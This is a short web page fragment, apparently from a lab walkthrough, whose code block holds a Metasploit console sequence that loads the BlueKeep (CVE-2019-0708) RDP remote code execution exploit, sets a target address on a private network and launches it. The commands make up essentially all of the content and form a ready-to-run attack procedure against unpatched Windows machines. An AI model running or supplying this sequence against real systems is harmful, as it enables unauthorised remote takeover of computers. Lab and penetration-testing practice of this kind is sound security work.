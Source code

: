<div class="group/codeblock grid grid-flow-col mx-auto w-full decoration-primary/6 page-full-width:ml-0 max-w-3xl page-api-block:ml-0" aria-busy="false"><button class="z-[2] mt-2 mr-2 self-start justify-self-end rounded-md bg-transparent p-1 text-tint text-xs leading-none opacity-0 ring-1 ring-tint backdrop-blur-md transition-opacity duration-75 [grid-area:2/1] hover:ring-tint-hover group-hover/codeblock:opacity-[1] print:hidden"></button>
<pre class="relative overflow-auto border border-tint-subtle bg-tint-subtle theme-muted:bg-tint-base p-2 [grid-area:2/1] contrast-more:border-tint contrast-more:bg-tint-base [html.theme-bold.sidebar-filled_&amp;]:bg-tint-base rounded-md straight-corners:rounded-sm shadow-sm"><code id="&laquo;R9538ut1letrnb&raquo;" class="inline-grid min-w-full grid-cols-[auto_1fr] [count-reset:line] print:whitespace-pre-wrap"><span class="highlight-line-content">search bluekeep
</span><span class="highlight-line-content">use 1 # Module exploit/windows/rdp/cve_2019_0708_bluekeep_rce ID
</span><span class="highlight-line-content">set RHOSTS 192.168.31.131
</span><span class="highlight-line-content">show targets
</span><span class="highlight-line-content">set target 5
</span><span class="highlight-line-content">exploit</span></code></pre>
</div>
<div class="mx-auto w-full decoration-primary/6 page-full-width:ml-0 max-w-3xl page-api-block:ml-0 flex flex-row gap-3 justify-center">
